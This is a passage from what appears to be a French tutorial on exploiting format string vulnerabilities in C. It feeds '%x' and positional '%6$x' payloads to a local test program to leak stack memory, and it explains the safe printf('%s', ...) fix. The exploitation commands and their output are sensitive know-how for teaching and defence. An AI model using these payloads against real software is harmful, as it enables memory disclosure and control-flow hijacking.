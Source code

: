 L'exécution est simple:  
![fmt1]({{ site.url }}/public/images/fmt/fmt1.png)  
Fuzzons juste pour vérifier que le fgets fait bien son boulot et que nous évitons un débordement classique:  
![fmt2]({{ site.url }}/public/images/fmt/fmt2.png)  
Maintenant faisons un autre test:
```bash
#python -c 'print "%x"*100' | ./simple
Your input: 65b7fb05a0b7fffc08bffff27f025c10000257825782578257825782578257825782578257825782578257825782578257825782578257825782578257825782578257825782578257825782578257825782578257825782578257825782578257825782578257825782578257825782578782578b7fb03dcbffff2f00b7e152761b7fb00000b7e152761bffff384bffff38c000b7fb0000b7fffc04b7fff00001Au revoir
```
  
Wowowo ça y est je suis l'élu, je sais lire la matrice?!  
  
Ce qui se passe ici est du au ```printf(argument);```. Ceci est valable avec toutes les fonctions similaires printf, fprintf, sprintf, snprintf, vprintf, vfprintf, vsprintf, vsnprintf.  
  
La version secure aurait été ```printf("%s",argument);``` pour forcer l'interprétation des données en tant que chaine de caractères:
```bash
Your input: 
%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x
%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x
Au revoir
```  
  
Avec ```printf(argument);```, vous pouvez injecter des formateurs qui demanderont à la fonction printf de dépiler de la stack autant d'arguments que de formateurs. Ceci nous permettra de lire la mémoire de notre exécutable et nous le verrons d'écraser des adresses pour rediriger vers notre flot d'exécution.  
  
Avez-vous remarqué la suite **25782578257825782578** affichée avec le formateur **%x** ?:
```bash
echo -n 2578 | xxd -p -r
%x
```
  
Nous pouvons lire depuis la mémoire notre argument passé à notre exécutable.
```bash
python -c 'print "A"*20 + "-%x"*20' | ./simple
Your input: 
AAAAAAAAAAAAAAAAAAAA-65-b7fb05a0-b7fffc08-bffff27f-0-41c10000-41414141-41414141-41414141-41414141-2d414141-252d7825-78252d78-2d78252d-252d7825-78252d78-2d78252d-252d7825-78252d78-2d78252d
Au revoir
```  
```bash
python -c 'print "A"*23 + "-%6$x"' | ./simple
Your input: 
AAAAAAAAAAAAAAAAAAAA-41c10000
Au revoir
```  
